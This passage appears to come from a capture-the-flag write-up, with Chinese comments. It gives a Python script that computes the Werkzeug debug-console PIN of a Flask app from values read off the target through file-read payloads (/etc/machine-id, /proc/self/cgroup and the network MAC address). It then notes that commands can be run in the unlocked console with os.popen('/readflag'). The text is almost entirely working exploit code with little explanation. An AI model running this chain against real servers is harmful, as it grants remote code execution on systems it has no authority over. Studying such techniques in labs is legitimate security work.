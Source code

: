 ```python
probably_public_bits = [
    'ctf'# /etc/passwd
    'flask.app',# 默认值
    'Flask',# 默认值
    '/usr/local/lib/python3.8/site-packages/flask/app.py' # 报错得到
]

private_bits = [
    str(int(re.search('</h1><pstyle="text-align:center">(.*?)</p></ul>',requests.get(url+payload3,headers=headers).text.replace("\n", "").replace(" ","")).groups()[0].replace(':',''),16)),#  /sys/class/net/eth0/address 16进制转10进制
    '1cc402dd0e11d5ae18db04a6de87223d'+re.search('</h1><pstyle="text-align:center">(.*?)</p></ul></body></body></html>',requests.get(url+payload4,headers=headers).text.replace("\n", "").replace(" ","")).groups()[0].split(",")[0].split("/")[-1]#  /etc/machine-id + /proc/self/cgroup
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)


```

进入后，就是个交互界面，直接进去,输入命令即可

>import os
>
>os.popen('/readflag').readlines()
